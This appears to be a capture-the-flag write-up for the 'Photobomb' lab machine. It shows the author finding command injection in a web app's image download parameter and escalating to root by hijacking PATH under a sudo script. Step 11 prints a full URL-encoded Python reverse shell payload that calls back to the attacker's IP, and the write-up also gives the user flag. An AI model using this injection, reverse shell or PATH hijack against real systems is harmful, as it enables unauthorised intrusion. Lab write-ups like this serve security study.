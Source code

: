 # Photobomb
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's check all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187399-28b9242d-ad0b-4fb0-a255-eb0e7fe46ab4.png)


2. Based from the output, it seems the machine is running a web application.
3. So let's open the webapp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187862-a8c8ee89-b456-4a0f-b1e8-43125353176c.png)


4. Let's click this:

![image](https://user-images.githubusercontent.com/70703371/211187884-27fe79c0-97d4-49d5-a55e-2db4a2b69d93.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187889-bde4bf7a-a15d-48ae-b340-7de1102c675f.png)


5. Well we don't have any creds, let's check the page source.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187961-98e9ad44-061e-4e4a-8178-48a0d3539c74.png)


6. Let's check the `.js` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187975-b432a7ef-7a85-4c03-b159-f511c4b6ec43.png)


![image](https://user-images.githubusercontent.com/70703371/211187993-b6eb2ef8-7633-4800-b00e-3154f28bb366.png)



7. Got a hint there, open the link then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188002-03f41d74-a975-4068-b9de-a3ac4f030445.png)


![image](https://user-images.githubusercontent.com/70703371/211188016-93639302-051f-45b5-a030-7d96ee78947e.png)


8. It seems we can downlaod any image we click here.

![image](https://user-images.githubusercontent.com/70703371/211188145-a76d347c-4916-4e46-8bbb-cf96c3c260ea.png)


9. Hence, let's see the download request using burpsuite and send it to repeater.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188308-051c41d0-21c5-47e5-bb41-52437ead0a37.png)


10. To check whether it's vulnerable to command injection, let's add `;id` behind the value of filetype parameter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188356-5eefb301-754f-4bc2-8dd4-e80620f0bf76.png)


![image](https://user-images.githubusercontent.com/70703371/211241745-356fd100-fcb1-4ea2-891d-f6f6d8c43e81.png)


11. Now let's try to inject command for reverse shell. I used this command from `hacktools`.

```
python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.12%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'
```

12. Now set a listeners for port 443. Then paste the payload behind the `jpg;`, next click send.

![image](https://user-images.githubusercontent.com/70703371/211243510-3cb7e988-161f-4f81-8184-24d7d9842058.png)


![image](https://user-images.githubusercontent.com/70703371/211243792-e296f709-2bd1-4743-881d-213ad1ec7305.png)


![image](https://user-images.githubusercontent.com/70703371/211244032-3223424d-4582-450a-ad40-524540bad572.png)


13. Now press `ctrl-d`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244049-24cc8e99-cc1c-4404-bccf-8f42ea07a278.png)


14. Let's find all the flags!


![image](https://user-images.githubusercontent.com/70703371/211244076-a9c1028b-ae19-4ad9-a1ac-b8dc7b34db11.png)


![image](https://user-images.githubusercontent.com/70703371/211244143-9a6c5ae9-9237-4c8f-9811-b55915f99cba.png)


15. Got the user flag!

## USER FLAG


```
e89b54a9041e03ea2ea5148f38d1413d
```

16. Then go for the root now.

![image](https://user-images.githubusercontent.com/70703371/211244239-4fe105cb-6da1-4f5d-bb8e-eb29d0ca6cfa.png)


17. Since we're not root, gotta find a way.
18. Find a bash script at the `opt` directory.

![image](https://user-images.githubusercontent.com/70703371/211244351-2be543e5-599f-4d60-a6c8-4e94345b2a22.png)


19. Actually i'm stucked here, so i did a small outsource about this challenge and found out that we have to run this command in order to get the root mode:

```
sudo -l # check our available command
echo bash > find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244753-c2b12678-a38d-4095-814d-7233d2824785.png)








